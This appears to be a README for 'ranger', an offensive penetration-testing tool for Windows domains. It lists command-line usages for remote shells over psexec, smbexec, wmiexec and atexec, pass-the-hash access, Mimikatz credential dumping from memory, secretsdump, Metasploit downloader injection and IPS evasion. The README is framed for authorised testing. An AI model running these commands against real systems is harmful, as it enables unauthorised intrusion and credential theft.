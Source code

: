 # ranger
A tool to support security professionals access and interact with remote Microsoft Windows based systems.

This project was conceptualized with the thought process, we did not invent the bow or the arrow, 
just a more efficient way of using it.

Ranger is a command-line driven attack and penetration testing tool, which as the ability to use 
an instantiated catapult server to deliver capabilities against Windows Systems.  As long as a user 
has a set of credentials or a hash set (NTLM, LM, LM:NTLM) he or she can gain access to systems that 
are apart of the trust.

Using this capability a security professional can extract credentials out of memory in clear-text, 
access SAM tables, run commands, execute PowerShell scripts, Windows Binaries, and other tools.  
At this time the tool bypasses the majority of IPS vendor solutions unless they have been custom 
tuned to detect it. The tool was developed using our home labs in an effort to support security 
professionals doing legally and/or contractually supported activities.

More functionality is being added, but at this time the tool uses the community contributions 
from repositories related to the PowerShell PowerView, PowerShell Mimikatz and Impacket teams.  

Find Logged In Users:

ranger.py [-u Administrator] [-p Password1] [-d Domain] --scout

SMBEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --smbexec -q -v -vv -vvv

PSEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -q -v -vv -vvv

PSEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -c "Net User" -q -v -vv -vvv

WMIEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec -c "Net User"

WMIEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker

WMIEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader

WMIEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe"

ATEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --atexec -c "Net User" --no-encoder

ATEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker --no-encoder

ATEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader --no-encoder

ATEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe" --no-encoder

SECRETSDUMP Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --secrets-dump

Create Pasteable Mimikatz Attack:
ranger.py --invoker -q -v -vv -vvv

Create Pasteable web_downloader Attack:
ranger.py --downloader -q -v -vv -vvv

Create Pasteable Executor Attack:
ranger.py --executor -q -v -vv -vvv
